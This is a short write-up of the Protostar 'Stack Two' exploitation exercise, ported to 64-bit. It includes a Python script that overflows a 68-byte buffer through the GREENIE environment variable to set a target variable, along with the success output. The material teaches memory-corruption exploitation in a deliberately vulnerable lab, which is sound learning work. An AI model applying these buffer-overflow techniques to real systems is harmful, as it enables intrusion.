

#Protostar x64 - Stack Two
https://exploit.education/protostar/stack-twp/
NOTE 1: Protostar doesn't offer 64-bit versions of the challenges itself. I set it up myself. For setup, refer here
NOTE 2: I'm writing the 64-bit write-ups as follow-ups to the 32-bit challenges, so I won't be going over the intricacies of the exploit, just the differences involved with it now being a 64-bit challenge instead of 32-bit

The goal of Stack Two is to overflow the buffer variable and overwrite the modified variable on the stack with 0x0d0a0d0a.
For some reason the offset to the modified variable is only 68 bytes here, instead of the 76 bytes from the previous challenges.
I have no idea why.
Pack 0x0d0a0d0a as a 64-bit value with struct.pack('<Q' and set the GREENIE environement variable with export.
#!/usr/bin/python
# exploit.education - Stack Two
import struct
buffer = 68
payload = "A" * buffer
payload += struct.pack('<Q', 0x0d0a0d0a)
print payload
user@ubuntu:~/protostar64$ export GREENIE=`python stack2.py`
user@ubuntu:~/protostar64$ bin/stack2
you have correctly modified the variable